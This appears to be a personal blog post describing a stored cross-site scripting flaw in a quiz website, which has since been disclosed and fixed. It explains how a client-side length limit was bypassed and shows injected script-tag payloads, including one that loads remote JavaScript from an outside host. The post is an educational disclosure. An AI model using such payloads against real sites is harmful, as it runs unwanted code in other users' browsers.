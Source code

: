 ```yaml
---
title: "The \"Quiz Your Friends\" XSS Exploit"
layout: post
---
```


Note: I have alerted the administrators of this site multiple times about this vulnerability.
One email was sent many years ago, which is more than enough time for [responsible disclosure](https://en.wikipedia.org/wiki/Responsible_disclosure).

Update: They have fixed the vulnerability as of the day of release for this article.

## Background

In early 2014, when my "programming" skills consisted of editing web pages with inspect element, I was sent a link from an old friend in a town about 3 hours away.
This was a link to a quiz about them.
I had to answer as many questions right as I could about them and I got a score at the end based on my answers.
It seemed fun enough, so I went for it.
In the following weeks this quiz website became quite a trend amongst my friend group as we all started making quizes to see how well we all knew eachother.

A few weeks into this trend, I was staying at a friends' place and told him about this site,
so he goes and creates his own quiz and sends it to all his friends, group chats, Google Plus groups, et cetera.

## Hackerman


While filling in my friend's survey I thought it would be
funny for them to know it is me without anyone else knowing.
We were young and had `Inspect Element`ed a few things together,
so it was a safe bet that an HTML joke would let them know.

I decided to write my name like so: `<b>Steve</b>`.
Steve is in reference to the [main character](https://minecraft.gamepedia.com/Player) in the video game Minecraft.

<figure>
  <img src="/assets/img/qyf-xss/2-bold.png">
  <figcaption>
    <p>Me typing in my name as <span class="mono">&lt;b&gt;Steve&lt;/b&gt;</span>.</p>
  </figcaption>
</figure>

Now in theory this should have shown in in the leaderboard as: "&lt;b&gt;Steve&lt;/b&gt;"
However, to my horror and excitement, I saw this in the leaderboard:

<figure>
  <img src="/assets/img/qyf-xss/3-steve-board.png">
  <figcaption>
    <p><span class="mono">&lt;b&gt;Steve&lt;/b&gt;</span> displaying in the leaderboard as bold text: <b>Steve</b></p>
  </figcaption>
</figure>

The text "Steve" showed up **in bold** on the leaderboard.
This told me all I needed to know.
How did this happen? You might wonder.

### Server-Side Validation

Here is a great demonstration why you should do most of your validation on the server side.
As a user, I can edit any of the HTML, CSS, or Javascript your server serves to me.

Quiz your friends uses the `maxlength=20` HTML attribute on the name input field.
Imagine trying to fit in a script tag doing anything useful with 20 characters! Don't forget that includes the `<script>` tag.
That would leave 13 characters for Javascript.
Although I'm sure a genius would be able to [code golf](https://code.golf/) that, I know I couldn't.

Now obviously I can edit any HTML that a server has sent to me.
If I open up my inspect element window, I can go ahead and change that `maxlength` attribute to anything I want.
Let's change it to 100!

<figure>
  <img src="/assets/img/qyf-xss/5-maxlength.png" alt='An image of the Quiz Your Friends name input field with inspect element. THe code reads: <font class="style6"><input class="inputbutton" name="takername" type="text" id="takername" maxlength="20" width="425" placeholder="Your First Name" style="text-align: center; text-decoration:inherit; font-size:38px;" tabindex="-1"></font>'>
  <figcaption>
    Manually changing the maxlength attribute. 
  </figcaption>
</figure>

In theory, there is a way that a site can stop people from just putting in their name of any length: server-side validation.
The server *could* check to see if the input is too long and reject it if it is.
The Quiz My Friends server has *no such checks in place*.
Therefore, I can send an almost arbitrary load to them.
Being able to send something potentially very large (more than a few megabytes) is a vulnerability of its own.
Imagine being able to send entire executable programs as your "name" in one of these quizzes?


## Javascript

So I went on my merry way thinking about ways to use malicious javascript.
Then, I thought that might be mean, so I decided to warn users instead.
I filled in the name with a script tag and a call to `alert()` to warn the user about this site.
I edited the max-length attribute to allow me to type a long string like this:

```
<script>alert("Don't use this site. It is not secure!");</script>
```

Sure enough, I got a text from my friend saying: "Tait! I know this is you, why would you do that!"
A bit salty, but who wouldn't be.

## Cross-Site Scripting (XSS)

As my final act, I decided to use a cross-site script that I could edit and have it load with new changes at any time.

I set this as my name:

```
<script src="https://tait.tech/assets/js/hacked.js"></script>
```

This script pops up a warning, telling the user that the site is insecure and it is now redirecting to an article about the attack.
This script redirects to an [older post I made](https://tait.tech/2020/04/25/xss/) about how XSS works.

## Conclusion

Watch out for sketchy websites that may be vulnerable to malicious or insecure sites which are ripe for abuse.
Always check that you are using an encrypted connection, HTTPS.
And if you see any messages warning you that a site is not secure and redirecting you to some random site...
Take their info with a grain of salt.

Happy Hacking, literally :)

